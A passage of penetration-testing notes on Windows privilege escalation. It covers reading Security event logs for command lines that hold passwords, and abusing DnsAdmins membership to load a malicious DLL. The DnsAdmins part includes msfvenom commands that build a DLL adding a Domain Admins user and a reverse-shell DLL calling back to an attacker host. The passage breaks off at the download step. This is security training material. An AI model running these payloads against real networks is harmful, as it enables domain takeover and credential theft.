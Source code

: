 This study shows some of the most run commands by attackers after initial access (tasklist, ver, ipconfig, systeminfo, etc.), for reconnaissance (dir, net view, ping, net use, type, etc.), and for spreading malware within a network (at, reg, wmic, wusa, etc.). Aside from monitoring for these commands being run, an organization could take things a step further and restrict the execution of specific commands using fine-tuned AppLocker rules.

**Confirming Group Membership**
````
> net localgroup "Event Log Readers"
Alias name     Event Log Readers
Comment        Members of this group can read event logs from local machine
Members
-------------------------------------------------------------------------------
<user>
The command completed successfully.
````
**Search For Security Logs**
````
# Using wevtutil
> wevtutil qe Security /rd:true /f:text | Select-String "/user"

# Using wevtutil with creds
> wevtutil qe Security /rd:true /f:text /r:share01 /u:<user> /p:<password> | findstr "/user"

# Get-WinEvent (Powershell)
> Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
````

## DnsAdmins

Members of the DnsAdmins group have access to DNS information on the network. The Windows DNS service supports custom plugins and can call functions from them to resolve name queries that are not in the scope of any locally hosted DNS zones. The DNS service runs as NT AUTHORITY\SYSTEM, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain. 

The following attack can be performed when DNS is run on a Domain Controller (which is very common):
- DNS management is performed over RPC
- ServerLevelPluginDll allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the dnscmd tool from the command line
- When a member of the DnsAdmins group runs the dnscmd command below, the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll registry key is populated
- When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
- An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.

**Leveraging DnsAdmins Access**
````
# Verify GroupMember DnsAdmins
> Get-ADGroupMember -Identity DnsAdmins

# Finding User's SID
> wmic useraccount where name="<user>" get sid

# Checking Permissions on DNS Service
> sc.exe sdshow DNS

# Step 1 - Generating Malicious DLL
$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Our_IP> LPORT=<Our_Port> -f dll -o reverse.dll

# Step 2 - Downloading File to Target
````